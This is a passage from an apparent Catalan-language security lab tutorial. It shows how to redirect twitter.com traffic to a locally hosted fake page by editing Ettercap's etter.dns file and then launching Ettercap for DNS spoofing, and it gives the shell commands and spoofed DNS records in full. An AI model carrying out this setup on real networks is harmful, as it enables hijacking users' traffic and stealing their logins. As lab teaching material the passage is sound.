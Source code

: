 Com podem observar la pàgina de Twitter està a la nostra IP 10.200.243.137 al port 80.

Ara necessitem que tot el tràfic per a twitter.com sigui redirigit a la meva IP. Utilitzarem DNS Spoof que està disponible a ETTERCAP.

S'ha de canviar el contigut del fitxer etter.dns per a que twitter.com apunto a la nostra IP.

`apt-get install mlocate`

`updatedb`

`locate etter.dns`

┌──(root㉿osboxes)-[/home/anonymous]
└─# locate etter.dns
/etc/ettercap/etter.dns
/usr/share/ettercap/etter.dns.examples

`cp /etc/ettercap/etter.dns /etc/ettercap/etter.dns.original`

`vi /etc/ettercap/etter.dns`

```
*.twitter.com   A       10.200.243.137
www.twitter.com PTR     10.200.243.137

www.alor.org    A       127.0.0.1
www.naga.org    A       127.0.0.1
```

Obrim Ettercap


<div style="align: center; width: 100%">
    <img src="./Photos/Ettercap.png" />
</div>
